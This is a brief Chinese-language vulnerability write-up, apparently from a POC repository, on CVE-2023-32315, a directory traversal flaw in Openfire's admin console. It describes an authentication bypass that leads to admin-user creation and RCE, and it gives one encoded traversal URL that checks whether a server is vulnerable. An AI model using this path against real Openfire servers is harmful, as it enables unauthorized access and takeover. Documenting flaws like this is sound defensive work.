 # CVE-2023-32315 Openfire目录穿越漏洞

## 漏洞描述
在Openfire版本4.7.4和4.6.7及以前，Openfire的Web管理后台存在一处目录穿越漏洞，这将允许攻击者绕过权限校验访问所有受限页面。我们可以借此漏洞未授权创建管理员用户，并结合后台自定义插件的上传，达到RCE。


## POC利用
验证存在：
```
/setup/setup-s/%u002e%u002e/%u002e%u002e/log.jsp
```
查看日志
